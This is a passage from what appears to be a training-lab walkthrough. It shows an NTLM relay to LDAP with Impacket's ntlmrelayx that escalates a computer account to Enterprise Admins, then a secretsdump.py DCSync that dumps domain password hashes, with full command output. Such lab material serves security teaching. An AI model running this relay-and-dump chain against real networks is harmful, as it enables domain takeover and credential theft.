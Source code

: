Code: shell

```shell
sudo ntlmrelayx.py -t ldap://172.16.117.3 -smb2support --escalate-user 'Academy-Student$' --no-dump
```

```shell-session
htb-student@ubuntu:~$ sudo ntlmrelayx.py -t ldap://172.16.117.3 -smb2support --escalate-user 'Academy-Student$' --no-dump
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server

[*] Setting up RAW Server on port 6666
[*] Servers started, waiting for connections
[*] HTTPD(80): Client requested path: /xml;
[*] HTTPD(80): Connection from 172.16.117.60 controlled, attacking target [ldap://172.16.117.3](ldap://172.16.117.3)
[*] HTTPD(80): Client requested path: /xml;
[*] HTTPD(80): Authenticating against [ldap://172.16.117.3](ldap://172.16.117.3) as INLANEFREIGHT/NPORTS SUCCEED
[*] Enumerating relayed user's privileges. This may take a while on large domains
[*] User privileges found: Adding user to a privileged group (Enterprise Admins)
[*] Adding user: Academy-Student to group Enterprise Admins result: OK
[*] Privilege escalation succesful, shutting down...
```

Right after the students have successfully escalated the privileges of the computer account, they will have to utilize `secretsdump.py` part of Impacket to perfom a `DCSync` attack and dump the hashes of the domain users, including the user `rons`.

Code: shell

```shell
secretsdump.py inlanefreight/Academy-Student\$@172.16.117.3
```

```shell-session
htb-student@ubuntu:~$ secretsdump.py inlanefreight/Academy-Student\$@172.16.117.3
Impacket v0.11.0 - Copyright 2023 Fortra

Password:
[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x2e351871c9f5d9e135e269da71692135
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:a678b5e7cc4c143b1d76a69ddf14c3ae:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
<SNIP>
INLANEFREIGHT.LOCAL\rons:1161:aad3b435b51404eeaad3b435b51404ee:914b011029e6b43cf188d435951831bd:::
<SNIP>
[*] Cleaning up... 
[*] Stopping service RemoteRegistry
```